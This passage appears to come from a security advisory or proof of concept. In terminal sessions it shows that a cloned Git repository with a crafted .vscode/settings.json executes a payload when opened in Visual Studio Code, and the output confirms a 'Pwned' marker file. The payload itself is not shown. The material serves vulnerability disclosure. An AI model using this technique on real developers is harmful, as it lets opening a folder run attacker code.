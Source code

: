 Add and commit a `.vscode/settings.json` file which specifies a `git.ignoredRepositories` value containing the value `"."`

```plain
user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ mkdir .vscode

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ echo '{"git.ignoredRepositories": ["."]}' > .vscode/settings.json

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git add .vscode/

user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git commit -m 'add workspace settings'
[main 0fe407e] add workspace settings
 1 file changed, 1 insertion(+)
 create mode 100644 .vscode/settings.json
```

Start a Git daemon to allow the repo to be cloned:

```plain
user@a46e008b1311:/tmp/tmp.FBZkahzNAG$ git daemon --verbose --export-all --base-path=.git --reuseaddr --strict-paths .git/
[50] Ready to rumble
```

Start a new shell within the container and clone the Git repo:

```plain
% sudo -g docker docker exec -ti a46e008b1311 bash

user@a46e008b1311:/$ cd $(mktemp -d)

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ git clone git://127.0.0.1/
Cloning into '127.0.0.1'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (27/27), done.
```

Remove `/tmp/win` and run Visual Studio Code against the cloned repo. Observe that our payload executes.

```plain
user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ rm /tmp/win

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ cat /tmp/win
cat: /tmp/win: No such file or directory

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ code 127.0.0.1/

[... Visual Studio Code opens as an X application ...]

user@a46e008b1311:/tmp/tmp.QPIrSJLu3r$ cat /tmp/win
Pwned as uid=31337(user) gid=31337(user) groups=31337(user)
```
